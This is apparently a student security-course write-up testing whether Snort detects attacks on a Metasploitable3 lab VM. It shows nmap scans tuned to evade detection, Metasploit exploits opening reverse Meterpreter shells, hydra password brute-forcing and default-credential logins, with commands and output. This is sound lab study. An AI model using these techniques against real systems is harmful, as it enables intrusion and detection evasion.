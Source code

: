 # Is it easier to fix the application than to detect attacks?

## Background
I configured and ran `Metasploitable3` in a VM on a Linux Mint host
(IP address `192.168.1.6`), following instructions on the course project
website, and installed `Snort` with rules configured from third-party
instructions [1, 2]. Snort was run with the command

`snort -A console -i1 -c c:\Snort\etc\snort.conf -l c:\Snort\log -K ascii`

    [1] https://ttcshelbyville.wordpress.com/2014/03/30/defending-your-network-with-snort-for-windows/
    [2] https://www.securityarchitecture.com/learning/intrusion-detection-systems-learning-with-snort/configuring-snort/#step1

## Results
Attacks were carried out using Kali Linux 18.1 in a separate VM (IP address
`192.168.1.200`). `nmap` was used for scanning (attacks one and two), and the
default Kali install of `metasploit` was used for exploitation
(attacks three to five).

Attacks one, three, and four were detected by Snort. Attacks two and five were
not detected. The question of whether it is easier to fix the application or
detect attacks is addressed in the conclusion.

### Attack 1: nmap intense scan (Detected)

The first attack was an intense port scan with `nmap -T4 -p 1-65535 -A -v 192.168.1.6`.
This discovered potentially-vulnerable services on the Windows host:

    Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-02 12:54 GMT
    Nmap scan report for 192.168.1.6

    PORT      STATE SERVICE  VERSION
    22/tcp    open  ssh      OpenSSH 7.1 (protocol 2.0)
    3000/tcp  open  http     WEBrick httpd 1.3.1 (Ruby 2.3.3 (2016-11-21))
    4848/tcp  open  ssl/http Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
    8022/tcp  open  http     Apache Tomcat/Coyote JSP engine 1.1
    8080/tcp  open  http     Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
    8282/tcp  open  http     Apache Tomcat/Coyote JSP engine 1.1
    8383/tcp  open  ssl/http Apache httpd
    8484/tcp  open  http     Jetty winstone-2.8     
    8585/tcp  open  http     Apache httpd 2.2.21 ((Win64) PHP/5.3.10 DAV/2)
    9200/tcp  open  http     Elasticsearch REST API 1.1.1 (name: Tarot; Lucene 4.7)

    Aggressive OS guesses: Microsoft Windows Server 2008 or 2008 Beta 3 (91%)

However, the scan was detected by Snort, with numerous `Priority 2` alerts
logged, e.g.   

- Consecutive TCP small segments exceeding threshold [Classification: Potentially Bad Traffic] 192.168.1.200 -> 192.168.1.6
- Reset outside window [Classification: Potentially Bad Traffic]
- TCP session without 3-way handshake [Classification: Potentially Bad Traffic]

The intense scan was therefore clearly identified by Snort.

### Attack 2: nmap stealth scanning (Not Detected)

The Snort detection in the previous attack could be successfully avoided using
more careful tuning of nmap options. For example, a scan of 100 ports using
`nmap -T2 -F 192.168.1.6` completed in 150 seconds and identified services on
port 22 (ssh), and 8080 (http) without detection. `nmap -T2 -A 192.168.1.6`
took 1214 seconds to complete, and retrieved more results; however, it
triggered a few Snort alerts when scanning port 8383, and might have been
detected. Scanning with `-T1` specified triggered no alerts, but took a very
long time to complete.

Therefore, it appears straightforward to carry out reconnaissance and scanning
without triggering Snort if the attacker is patient, limits the scanning rate,
and carefully selects ports to be scanned.  

### Attack 3: Remote Shell via Elasticsearch CVE-2014-3120 (Detected)

Running `nmap --script nmap-vulners,vulscan --script-args vulscandb=scipvuldb.csv -sV 192.168.1.6` identified numerous potential vulnerabilities. My first exploit
was against Elasticsearch:  

    use multi/elasticsearch/script_mvel_rce
    set RHOST 192.168.1.6

this was then run with the exploit command

    msf exploit(multi/elasticsearch/script_mvel_rce) > exploit

    Started reverse TCP handler on 192.168.1.200:4444
    Trying to execute arbitrary Java...
    Discovering remote OS...
    Remote OS is 'Windows Server 2008 R2'
    Discovering TEMP path
    TEMP path identified: 'C:\Windows\TEMP\'
    Sending stage (53837 bytes) to 192.168.1.6
    Meterpreter session 2 opened (192.168.1.200:4444 -> 192.168.1.6:50615) at 2018-03-11 11:32:50 +0000

A shell could then be opened on the remote system

    meterpreter > shell
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Program Files\elasticsearch-1.1.1>

However, this exploit led to a large number of alerts in the Snort logs
originating at port 50615 (used by Meterpreter) on the Kali host, and so would
have been easily detected. The attack also left `.tmp` and `.jar` files in
`C:\Windows\Temp` directory, which would provide evidence of compromise in the
case of later forensic analysis.

### Attack 4: Remote Shell via Default password in Apache Axis2 CVE-2010-0219 (Detected)

The deployed Apache Tomcat server includes a default password of `axis2` for
the `admin` account. This can be exploited to create a shell with metasploit

    use exploit/multi/http/axis2_deployer
    set RHOST 192.168.1.6

then

    msf exploit(multi/http/axis2_deployer) > exploit
    Started reverse TCP handler on 192.168.1.200:4444
    http://192.168.1.6:8282/axis2/axis2-admin [Apache-Coyote/1.1] [Axis2 Web Admin Module] successful login 'admin' : 'axis2'
    Successfully uploaded
    Polling to see if the service is ready
    Sending stage (53837 bytes) to 192.168.1.6
    Meterpreter session 2 opened (192.168.1.200:4444 -> 192.168.1.6:50810) at 2018-03-11 11:48:32 +0000
    Deleted webapps/axis2/WEB-INF/services/oaPWWciG.jar

a shell could again be opened on the remote systems

    meterpreter > shell
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Program Files\Apache Software Foundation\tomcat\apache-tomcat-8.0.33>

Again, the exploit was detected by Snort, which showed a few log entries
originating on port 50810 (used by Meterpreter) on the Kali host. However, there
were far fewer entries than in attack 3, and it is possible that these might
have been overlooked on a busy system.

### Attack 5: Weak password on Wordpress wp-admin (Not Detected)

I ran a few more successful metasploit attacks, but all were detected by Snort,
so for the final attack, I assumed that attack 4 (which was the 'quietest') was
not immediately detected. I opened a remote shell and ran `net users`, which
returned

    User accounts for \\METASPLOITABLE3
    ---------------------------------------------------------------------------
    Administrator     anakin_skywalker    artoo_detoo
    ben_kenobi        boba_fett           c_three_pio
    chewbacca         darth_vader         greedo
    Guest             han_solo            jabba_hutt
    jarjar_binks      kylo_ren            lando_calrissian
    sshd_server       vagrant

I was able to brute-force `c_three_pio` with `hydra` and Kali's `rockyou.txt`
wordlist

    sshpass -p pr0t0c0l ssh c_three_pio@192.168.1.6
    Last login: Sun Mar 11 16:45:46 2018 from 192.168.1.200
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Program Files\OpenSSH\home\c_three_pio>

but this would have been easily detected due to a large number of failed logins.
However, I wrote a python script to look for passwords that were the same as
the username, and managed to log in to

    http://192.168.1.6:8585/wordpress/wp-admin/

with `vagrant:vagrant`. This was not detected by Snort, and it appears to be a
routine login to `wp-admin`, but a wordpress administrator might have noticed
failed logins from other users. However, this would allow the Wordpress install
to be modified (e.g. to distribute malware) and this was the closest that I was
able to get to an system compromise without any detection from Snort.  

## Conclusion

While it was relatively easy to carry out scanning without detection, Snort
generally detected exploits launched from metasploit: I opened remote shells
through half a dozen different exploits, and all were detected to
some extent. In the end I had to 'cheat' a little and assume my username
enumeration went unnoticed in order to achieve an 'undetected' compromise.

However, it was very easy to compromise the system via weak passwords and
unpatched vulnerabilities in software, and while Snort detected many of these
attempts, the attack would have succeeded before an administrator could respond.
Therefore, while detecting attacks is important, it is also essential to fix the
applications to reduce the attack surface of the system: the answer to the
project question is 'both'!
